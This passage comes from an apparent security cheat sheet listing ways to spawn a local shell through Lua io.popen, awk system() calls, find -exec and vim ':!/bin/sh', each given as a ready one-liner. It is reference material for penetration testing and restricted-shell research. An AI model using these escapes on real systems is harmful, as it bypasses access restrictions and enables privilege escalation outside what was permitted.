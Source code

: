 **Alternative Lua Methods:**
```lua
-- Using io.popen
lua -e "io.popen('/bin/sh'):read('*all')"
```

### System Utility Spawning

#### AWK Shell Spawning

**BEGIN Block Method:**
```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Pattern-based Method:**
```bash
awk '{system("/bin/sh")}' /etc/passwd
```

**One-liner with File:**
```bash
echo | awk '{system("/bin/sh")}'
```

**Features:**
- **C-like language**: Pattern scanning and processing
- **Widely available**: Present on most Unix/Linux systems
- **System function**: Direct system command execution
- **Report generation**: Original purpose for text processing

#### Find Command Spawning

**Method 1: Find with AWK**
```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Method 2: Direct Execution**
```bash
find . -exec /bin/sh \; -quit
```

**Method 3: Interactive Find**
```bash
find /etc -name passwd -exec /bin/sh \;
```

**Find Command Breakdown:**
- **Search function**: Looks for specified file
- **Execute option (-exec)**: Runs command when file found
- **Quit option (-quit)**: Stops after first match
- **Flexible execution**: Can execute any binary

#### VIM Editor Spawning

**Method 1: Command Line Option**
```bash
vim -c ':!/bin/sh'
```
